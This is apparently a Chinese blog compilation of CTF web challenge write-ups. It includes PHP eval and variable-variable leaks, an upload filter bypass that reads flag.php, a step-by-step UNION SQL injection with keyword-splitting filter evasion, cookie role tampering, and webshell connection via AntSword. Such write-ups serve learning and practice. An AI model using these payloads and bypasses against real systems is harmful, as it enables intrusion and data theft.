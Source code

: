 <!--yml
category: 未分类
date: 2022-04-26 14:46:09
-->

# 春秋web题目解题及思路汇总（自用搜集）_香草星冰乐的博客-CSDN博客

> 来源：[https://blog.csdn.net/Devil_B/article/details/106081517](https://blog.csdn.net/Devil_B/article/details/106081517)

## (Misc-Web)爆破-2

```
<?php
include "flag.php";
$a = @$_REQUEST['hello'];
eval( "var_dump($a);");
show_source(__FILE__); 
```

**题目知识点：**
file_get_contents(path)函数，获得指定路径下的文件内容，以字符串的形式返回出来。
eval(str)函数，把括号里的字符串，当作php命令来执行。
**解题思路：**
这一题，把一个file_get_contents()函数命令赋值给$a传入var_dump()中。var_dump()函数就是把这个命令以字符串的形式返回，进入到嵌套的eval函数里面，让eval函数来执行这行命令。

```
http: 
```

## (Misc-Web)爆破-1

```
分值：10分 类型：Misc Web已解答 题目： flag就在某六位变量中。 

<?
php include "flag.php"; 
$a = @$_REQUEST['hello'];  
if(!preg_match('/^\w*$/',$a ))  
{                               
    die('ERROR'); 
} 
eval("var_dump($$a);"); 
show_source(__FILE__); 
?> 
```

**解题预备知识：**
两个符的含义，在php语言中，变量名可以用另一个变量来表示。如下面的代码中，$a=“b”，那么
a就等于b，则输出b的值 “hello world!”

```
<?php
$a='b';
$b="hello world!";
eval("var_dump($$a);");
?> 
```

*   在php语言中，所有的已经定义的变量都会保存在GLOBALS全局数组中，比方说你定义了一个 n a m e = " 李 华 " ， 那 么 name="李华"，那么 name="李华"，那么GLOBALS[‘name’]就等于“李华”。就是说，你可以通过这个全局数组来访问任何一个变量，所有已经定义过的变量都可以在里面通过变量名索引得到。
*   R E Q U E S T 数 组 里 面 包 括 了 _REQUEST数组里面包括了 R​EQUEST数组里面包括了_GET[]和$_POST[]，也就是说，通过这个数组中，可以访问另外两个传值方式里面，所有传过的值。

preg_match函数返回值为匹配到的次数。

**解题流程：**
审计代码可以知道，我们可以用GET传值方式（?hello=），来给a赋值，最后会输出(我传给$a的值)。
想到上面的GLOBALS知识，那就之间传入GLOBALS，让把所有的变量都打印出来。最后，得到flag。

```
http: 
```

————————————————
版权声明：本文为CSDN博主「江judge」的原创文章，遵循CC 4.0 BY-SA版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/qq_41281571/article/details/81268393

## CTF || [“百度杯”CTF比赛 九月场]Upload

**题目内容：**想怎么传就怎么传，就是这么任性。tips:flag在flag.php中

**解题预备知识：**
上传文件漏洞，再上传文件时会过滤掉特殊字符。在本次题目中过滤掉了<?和小写的php。
例如：

```
<?php
$myfile = fopen("../flag.php", "r") or die("Unable to open file!");
echo fread($myfile,filesize("../flag.php"));
fclose($myfile);
?> 
```

查看上传文件为：

```
$myfile = fopen("../flag.", "r") or die("Unable to open file!"); 
echo fread($myfile,filesize("../flag.")); 
fclose($myfile); 
?> 
```

**解决措施：**
尝试用<scrpt language=“PHP” 绕过并将php大写。
**解题流程：**

```
<script language="PHP">
$myfile = fopen("../flag.".strtolower("PHP"), "r") or die("Unable to open file!");
echo fread($myfile,filesize("../flag.".strtolower("PHP")));
fclose($myfile);
</script> 
```

*   上传该文件
*   点击上传成功，按f12查看源代码，即可。

**问题：**在链接蚁剑时失败了？

## “百度杯”CTF比赛 九月场SQL

**题目内容：**出题人就告诉你这是个注入，有种别走！

**解题预备知识：**
salmap的使用：在使用时我发现没有发现注入点。怎么回事，随后进行手工注入发现被过滤了。如果有人想用sqlmap的话要先写脚本，不会看看大佬的。
https://blog.csdn.net/cbhjerry/article/details/84134569

sql手工注入：我在墨者学院上发现一个特别基础的，手工注入，分享给大家。
https://www.mozhe.cn/news/detail/324
可以先看一下。

hackbar:在网页输入url小工具

**解题思路：**

```
?id=1 and 1=1 
```

显示原网页，存在注入漏洞。

*   判断字段，用order by,但是发现这些 被过滤了，在中间加个<>这次我也学到了。

```
?id=1 ord<>er by 3 
```

by 4的时候不显示，说明只有3个字段。

*   查看显示字段，用union select，当然也被过滤了。

```
?id=1 union sele<>ct 1,2,3 
```

显示结果2，说明在第二个字段显示

```
?id=1 union sele<>ct 1,database(),3 
```

显示 sqli

```
?id=1 union sele<>ct 1,group_contact(table_name),3 from information_schema.tables where table_schema='sqli' 
```

显示：info,users

```
?id=1 union sele<>ct 1,group_contact(column_name),3 from information_schema.columns where table_name='info' 
```

显示：id,title,flAg_T5ZNdrm

```
?id=1 union sele<>ct 1,flAg_T5ZNdrm,3 from info 
```

显示：自己做

## CTF-2017第二届广东省强网杯线上赛：who are you?

```
<?php
include "flag.php";
$a = @$_REQUEST['hello'];
eval( "var_dump($a);");
show_source(__FILE__); 
```

**题目内容：**
我是谁，我在哪，我要做什么？
**解题思路：**

*   看到这题首先我想大概是cookie的问题，然后尝试用burpsuite抓包发现其cookie值为`Cookie: role=Zjo1OiJ0aHJmZyI7`，应该是要解码，就用burpsuite自带的解码器解码，但是我对base64解码的结果不熟悉，并没有发现什么。

*   Base64解密`Zjo1OiJ0aHJmZyI7`,得到内容是`f:5:"thrfg“`。看了攻略之后发现还要rot13解码，学到了。推荐一个rot13在线解码网址：https://rot13.com/

*   `f:5:"thrfg”`用rot13解码为`s:5:"guest"`，于是替换guest为admin得`f:5:"nqzva"`再对其base64加密为`Zjo1OiJucXp2YSI7`

*   对burpsuite内容修改，弹出新网页提示：Hello admin, now you can upload something you are easy to forget

*   查看源码：`<!-- $filename = $_POST['filename']; $data = $_POST['data']; -->`我们需要上传木马。现在有两个选择1:burpsuite发送到repeater，但是不知道为什么我接下来的操作一直失败。2:用hackbar提交木马，这个成功了。哎，学人家都学不来，自己太菜了。

*   ![在这里插入图片描述](img/3c0b85c6e72a5f850da5352eea33bf7a.png)

*   点击execute，得出flag所在网址。

## “百度杯”CTF比赛 九月场 Test

**题目内容：**
善于查资料，你就可以拿一血了。
**知识点：**
看到一个海洋视频网站，对于一个小白来说，我就去注册登陆了。。。。。。
发现并没有什么用就看了参考。附上找到的资源，因为我是mac所有就用了中国蚁剑。
海洋漏洞：https://www.freebuf.com/vuls/150042.html
中国蚁剑：https://www.freebuf.com/sectool/98681.html

**解题步骤：**

*   在search.php页面中有一个命令执行漏洞，通过在浏览器post提交，即可通过中国蚁剑链接。链接密码就是你上传的参数cmd。

```
http: 
```

![在这里插入图片描述](img/6712dfdfbe29ab445bc0f2759c38cc61.png)

*   在文件中找了半天没找打，查看参考说在数据库，害，找到藏有数据库信息的文件。
    ![在这里插入图片描述](img/f07751afca52447b760076ca1c9b3efe.png)
*   使用中国蚁剑自带的方式链接数据库，如下图：
    ![在这里插入图片描述](img/a720052c0cee524c779c0c460391a0a4.png)
*   即可发现flag:
    ![在这里插入图片描述](img/0c73fba938928cb90a8773e58d529a6e.png)